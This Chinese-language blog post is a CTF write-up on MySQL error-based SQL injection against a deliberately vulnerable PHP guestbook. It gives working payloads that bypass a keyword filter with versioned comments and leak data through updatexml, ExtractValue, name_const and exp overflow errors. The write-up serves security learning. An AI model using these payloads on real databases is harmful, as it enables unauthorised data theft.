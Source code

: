 title: MySQLi-Error Injection
date: 2016-04-08 17:52:02
tags: SQLi
categories: H-blog
---
本篇文章源于一道三个白帽的题目

<!--more-->

该题源码
```
<?php
include 'config.php';
foreach(array('_GET','_POST','_COOKIE') as $key){
    foreach($$key as $k => $v){
        if(is_array($v)){
            errorBox("hello,sangebaimao!");
        }else{
            $k[0] !='_'?$$k = addslashes($v):$$k = "";
        }
    }
}

function filter($str){
    $rstr = "";
    for($i=0;$i<strlen($str);$i++){
        if(ord($str[$i])>31 && ord($str[$i])<127){
            $rstr = $rstr.$str[$i];
        }
    }
    $rstr = str_replace('\'','',$rstr);
    return $rstr;
}


if(!empty($message)){
    if(preg_match("/\b(select|insert|update|delete)\b/i",$message)){
        die("hello,sangebaimao!");
    }
    if(filter($message) !== $message){
        die("hello,sangebaimao!");
    }

    $sql="insert guestbook(`message`) value('$message');";
    mysql_query($sql);
    $sql = "select * from guestbook order by id limit 0,5;";
    $result = mysql_query($sql);
    if($result){
        while($row = mysql_fetch_array($result)){
            $id = $row['id'];
            $message = $row['message'];
            echo "|$id|=>|$message|<br/>";
        }
    }

    $message = stripcslashes($message);
    $sql = "delete from guestbook where id=$id or message ='$message';";
    if(!mysql_query($sql)){
        print(mysql_error());
        $sql = "delete from guestbook where id=$id";
        mysql_query($sql);
    };
}
?>
```

这题读完一遍源码之后，就知道需要bypass单引号和`preg_match("/\b(select|insert|update|delete)\b/i",$message)`， 然后是二次注入+报错注入.

bypass单引号是借助`stripcslashes($message);`该函数，所以使用`?message=aaa\x27` 来bypass单引号，这不是本篇重点，就不多说了。

然后使用`/*!00000select*/` 来bypass `preg_match("/\b(select|insert|update|delete)\b/i",$message)`

`/*!*/` 只在mysql中有用，在别的数据库中这只是注释，但是在mysql，`/*!select 1*/`可以成功执行，在语句前可以加上5位数字，代表版本号，表示只有在大于该版本的mysql中不作为注释
eg:
```
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.7.9-log |
+-----------+
1 row in set (0.00 sec)

mysql> select /*!50709version()*/;
+-----------+
| version() |
+-----------+
| 5.7.9-log |
+-----------+
1 row in set (0.00 sec)

mysql> select /*!50710version()*/;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
```

好了，现在可以进行注入了，因为有一句`print(mysql_error());`，所以可以报错注入了：
<del>报错注入是从写bug中发现的么？</del>

## 使用updatexml

payload:
```
?message=aaa\x27 and updatexml(0,concat(0x27,(/*!00000select version()*/)),0)%23
```

`UpdateXML(xml_target, xpath_expr, new_xml)`
updatexml函数有三个参数，作用是xml替换，把`xml_target`中被`xpath_expr`匹配到的部分使用`new_xml`替换

这个报错注入的原理是利用updatexml的参数错误，首先不能有语法错误，要不然注入的语句根本无法执行，语法正确后，先去执行`concat(0x27,(/*!00000select version()*/))`,得到`'5.5.42-log`,作为第二个参数传入updatexml函数中，而updatexml第二个参数为xml的匹配表达式，单引号为非法字符，因此报错，输出错误内容`'5.5.42-log`, 因此得到了你想要得到的数据

## 使用ExtractValue()

payload:
```
?message=aaa\x27 and ExtractValue(0,concat(0x27,(/*!00000select version()*/)))%23
```

这个同理上面的，不过区别是
`ExtractValue(xml_frag, xpath_expr)` 得到`xml_frag`中被`xpath_expr`匹配到的值

不过extractvalue和updatexml有个缺陷是，报错数据最大长度为32

## 使用name_const

payload:
```
?message=aaa\x27%20and%20(/*!00000SELECT*/ * FROM(/*!00000SELECT*/(name_const(version(),1)),name_const(version(),1))a)%23
```

```
mysql> select name_const('a','b');
+------+
| a    |
+------+
| b    |
+------+
1 row in set (0.00 sec)

mysql> /*!00000SELECT*/(name_const(version(),1)),name_const(version(),1); +-----------+-----------+
| 5.7.9-log | 5.7.9-log |
+-----------+-----------+
|         1 |         1 |
+-----------+-----------+
1 row in set (0.00 sec)
```

本题利用的是表的字段名不允许重复，报错长度没有限制

## 利用exp报错

payload:
```
?message=aaa\x27 and (/*!00000select exp(~(/*!00000select*/ * from (/*!00000select*/ version())a)))%23
```

利用double型溢出，可参考<http://drops.wooyun.org/tips/8166>

## 利用floor报错

可参考<http://www.jinglingshu.org/?p=4507>, 对于`floor` 报错注入我理解的不是特别透彻

## 利用join报错

`join` 可用来报列名，同样可参考上面那个链接，本题不是一个很好的join报错案例